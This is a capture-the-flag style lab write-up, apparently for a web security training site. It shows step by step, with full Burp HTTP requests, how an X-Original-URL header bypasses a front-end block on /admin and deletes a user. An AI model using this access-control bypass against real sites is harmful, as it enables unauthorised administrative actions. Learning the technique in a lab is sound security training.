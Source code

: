 *This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header. To solve the lab, access the admin panel and delete the user carlos.*

Tried access `/admin` only to be received with a *Access Denied* message. 

I reloaded the page and intercepted the request with Burp Intercept to observe the output: 
```
GET /admin HTTP/2
Host: 0a9a0060044b330880903a8a00f90027.web-security-academy.net
Cookie: session=6Ia1S6nYhrzlxpjg8oBjKE4hONwlzoJd
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a0060044b330880903a8a00f90027.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Since they said that the backend framework supports X-Original-URL header, we can try to include it to overwrite the block placed by the front-end system. I modified the request to the following using Burp Repeater : 

```Burp 
GET / HTTP/2
Host: 0a9a0060044b330880903a8a00f90027.web-security-academy.net
X-Original-Url : /admin
Cookie: session=6Ia1S6nYhrzlxpjg8oBjKE4hONwlzoJd
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a0060044b330880903a8a00f90027.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I was able to access the page as the full page was shown in the response. I then modified the request to the following: 
```Burp 
GET /?username=carlos HTTP/2
Host: 0a9a0060044b330880903a8a00f90027.web-security-academy.net
Cookie: session=6Ia1S6nYhrzlxpjg8oBjKE4hONwlzoJd
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a0060044b330880903a8a00f90027.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
X-Original-Url : /admin/delete
```

Solved!